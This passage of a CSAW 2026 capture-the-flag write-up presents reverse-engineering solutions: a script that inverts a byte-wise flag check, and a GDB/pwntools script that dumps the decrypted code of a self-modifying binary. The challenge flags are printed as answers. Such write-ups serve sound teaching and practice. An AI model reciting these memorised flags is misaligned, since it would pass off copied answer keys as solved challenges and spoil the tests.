# Inverse of 0x1b modulo 256
INV_1B = pow(0x1b, -1, 256)  # 0x13

r1 = 0x3c
flag = []

blocks = [
    # A,    B,    K, C,    T,    K2
    (0x5a, 0x11, 1, 0xc3, 0x11, 3),
    (0x81, 0x18, 2, 0xc3, 0xab, 3),
    (0xa8, 0x1f, 3, 0xc3, 0xdc, 3),
    (0xcf, 0x26, 4, 0xc3, 0xc8, 3),
    (0xf6, 0x2d, 5, 0xc3, 0x4e, 3),
    (0x1d, 0x34, 6, 0xc3, 0x41, 3),
    (0x44, 0x3b, 7, 0xc3, 0x22, 3),
    (0x6b, 0x42, 1, 0xc3, 0x44, 3),
    (0x92, 0x49, 2, 0xc3, 0x12, 3),
    (0xb9, 0x50, 3, 0xc3, 0x29, 3),
    (0xe0, 0x57, 4, 0xc3, 0x8e, 3),
    (0x07, 0x5e, 5, 0xc3, 0x93, 3),
    (0x2e, 0x65, 6, 0xc3, 0xa6, 3),
    (0x55, 0x6c, 7, 0xc3, 0x98, 3),
    (0x7c, 0x73, 1, 0xc3, 0x71, 3),
    (0xa3, 0x7a, 2, 0xc3, 0xde, 3),
    (0xca, 0x81, 3, 0xc3, 0x8b, 3),
    (0xf1, 0x88, 4, 0xc3, 0x0d, 3),
    (0x18, 0x8f, 5, 0xc3, 0xe8, 3),
    (0x3f, 0x96, 6, 0xc3, 0xa3, 3),
    (0x66, 0x9d, 7, 0xc3, 0xb6, 3),
    (0x8d, 0xa4, 1, 0xc3, 0xb9, 3),
    (0xb4, 0xab, 2, 0xc3, 0xb0, 3),
    (0xdb, 0xb2, 3, 0xc3, 0x7d, 3),
    (0x02, 0xb9, 4, 0xc3, 0xea, 3),
    (0x29, 0xc0, 5, 0xc3, 0x74, 3),
    (0x50, 0xc7, 6, 0xc3, 0xcf, 3),
    (0x77, 0xce, 7, 0xc3, 0xec, 3),
    (0x9e, 0xd5, 1, 0xc3, 0x3f, 3),
    (0xc5, 0xdc, 2, 0xc3, 0x89, 3),
    (0xec, 0xe3, 3, 0xc3, 0x46, 3),
    (0x13, 0xea, 4, 0xc3, 0x71, 3),
    (0x3a, 0xf1, 5, 0xc3, 0xcd, 3),
    (0x61, 0xf8, 6, 0xc3, 0xe2, 3),
    (0x88, 0xff, 7, 0xc3, 0x26, 3),
    (0xaf, 0x06, 1, 0xc3, 0xb9, 3),
    (0xd6, 0x0d, 2, 0xc3, 0xcc, 3),
    (0xfd, 0x14, 3, 0xc3, 0xe1, 3),
    (0x24, 0x1b, 4, 0xc3, 0xe7, 3),
    (0x4b, 0x22, 5, 0xc3, 0x57, 3),
    (0x72, 0x29, 6, 0xc3, 0x67, 3),
    (0x99, 0x30, 7, 0xc3, 0xf8, 3),
    (0xc0, 0x37, 1, 0xc3, 0xaa, 3),
    (0xe7, 0x3e, 2, 0xc3, 0xdf, 3),
    (0x0e, 0x45, 3, 0xc3, 0xa4, 3),
    (0x35, 0x4c, 4, 0xc3, 0x33, 3),
    (0x5c, 0x53, 5, 0xc3, 0x35, 3),
    (0x83, 0x5a, 6, 0xc3, 0x4b, 3),
    (0xaa, 0x61, 7, 0xc3, 0xac, 3),
    (0xd1, 0x68, 1, 0xc3, 0x3b, 3),
    (0xf8, 0x6f, 2, 0xc3, 0x86, 3),
    (0x1f, 0x76, 3, 0xc3, 0xad, 3),
    (0x46, 0x7d, 4, 0xc3, 0x95, 3),
]

for i, (A, B, K, C, T, K2) in enumerate(blocks):
    x = T
    x ^= r1
    x = (x * INV_1B) & 0xff
    x ^= C
    x = ror8(x, K)
    x = (x - B) & 0xff
    x ^= A

    flag.append(x)

    # Forward update of r1
    r1 = (r1 + x) & 0xff
    r1 = rol8(r1, K2)
    r1 ^= 0x9e

result = bytes(flag)
print(result.decode())
```

Running the inversion across all 53 blocks yields the flag.



```text
Flag: csaw{cl1mb1ng_th3_v1rtu4l_st4ck_0n3_0pc0d3_4t_4_t1m3}
```

---

## nitro
> **Tags:** Self-Modifying Code, Runtime Decryption, mprotect

### About the Challenge
We are given an ELF binary `nitro` that unlocks functionality only when passed a secret command-line argument.

### Solution Walkthrough
Static analysis in IDA / Ghidra shows:
- The binary calls `mprotect` on its own `.text` segment to make code writable.
- Checking `argv[1]`: if it matches `"n2o_boost"`, it triggers an inline decryption loop for a 349-byte code blob at `0x40130e`.
- The decrypted code XOR-decodes the flag table using a deterministic formula.

Simply executing the binary with the required parameter unlocks the routine:
```bash
$ ./nitro n2o_boost
NITRO ENGAGED: csaw{c0d3_th4t_rewr1t3s_1ts3lf_c4nt_b3_tru5t3d}
```

#### 2. Automated Solve Script (`solve.py`)
To solve dynamically without executing untrusted code directly, this automated script instruments GDB via `pwntools` to intercept execution at `secret_check`, dumps the decrypted payload memory, and computes the flag:

```python
#!/usr/bin/env python3
from pwn import *
import os

context.log_level = "info"
context.arch = "amd64"

BIN = "./nitro"

ADDR_SECRET_CHECK = 0x40130d
ADDR_BLOB         = 0x40130e
ADDR_BLOB_END     = 0x40146b
ADDR_TABLE        = 0x402020
ADDR_TABLE_END    = 0x402020 + 0x2f
ADDR_FMT          = 0x40207e

SECRET_FILE = "/tmp/secret.bin"
BLOB_FILE   = "/tmp/blob.bin"
TABLE_FILE  = "/tmp/table.bin"
FMT_FILE    = "/tmp/fmt.bin"

def dump_after_decryption():
    p = process(["gdb", "-q", BIN], level="error")

    p.sendline(b"set pagination off")
    p.sendline(b"set confirm off")
    p.sendline(f"break *{hex(ADDR_SECRET_CHECK)}".encode())
    p.sendline(b"run AAAA")
    p.recvuntil(b"Breakpoint 1")

    # Instruct GDB to dump memory regions directly to disk
    p.sendline(f"dump binary memory {SECRET_FILE} {hex(ADDR_SECRET_CHECK)} {hex(ADDR_SECRET_CHECK + 0x15e)}".encode())
    p.sendline(f"dump binary memory {BLOB_FILE}   {hex(ADDR_BLOB)} {hex(ADDR_BLOB_END)}".encode())
    p.sendline(f"dump binary memory {TABLE_FILE}  {hex(ADDR_TABLE)} {hex(ADDR_TABLE_END)}".encode())
    p.sendline(f"dump binary memory {FMT_FILE}    {hex(ADDR_FMT)} {hex(ADDR_FMT + 32)}".encode())

    p.sendline(b"kill")
    p.sendline(b"quit")
    p.recvall(timeout=3)
    p.close()

    secret = open(SECRET_FILE, "rb").read()
    blob   = open(BLOB_FILE,   "rb").read()
    table  = open(TABLE_FILE,  "rb").read()
    fmt    = open(FMT_FILE,    "rb").read()
    return secret, blob, table, fmt

def compute_flag(blob, table):
    length = len(blob)  # 0x15d = 349 bytes
    key    = 0x6b
    out    = bytearray()
    for i in range(0x2f):
        idx = (i * 7 + 3) % length
        b   = (blob[idx] + i * 5 + key) & 0xff
        out.append(table[i] ^ b)
    return bytes(out)

def run_for_real():
    p = process([BIN, b"n2o_boost"])
    out = p.recvall(timeout=2)
    p.close()
    return out

def main():
    log.info("Dumping decrypted memory via gdb...")
    secret, blob, table, fmt = dump_after_decryption()

    log.success(f"secret_check ({len(secret)} bytes): {secret[:16].hex()}...")
    log.success(f"blob         ({len(blob)} bytes): {blob[:16].hex()}...")
    log.success(f"table        ({len(table)} bytes): {table.hex()}")
    log.success(f"fmt          : {fmt.split(b'\\x00')[0]!r}")

    if len(blob) < 0x15d:
        log.error(f"blob too short ({len(blob)} bytes)")
        return

    flag = compute_flag(blob, table)
    print("\n=== Computed flag ===")
    print(flag.decode(errors="replace"))

    print("\n=== Direct run output ===")
    print(run_for_real().decode(errors="replace"))

if __name__ == "__main__":
    main()
```



```text
Flag: csaw{c0d3_th4t_rewr1t3s_1ts3lf_c4nt_b3_tru5t3d}
```

---

# Conclusion & Source Files

All challenge files, scripts, and captures used in this writeup are available on my GitHub repository:
👉 [**Jenusdy/ctf-writeups (2026/CSAW)**](https://github.com/Jenusdy/ctf-writeups/tree/main/2026/CSAW)
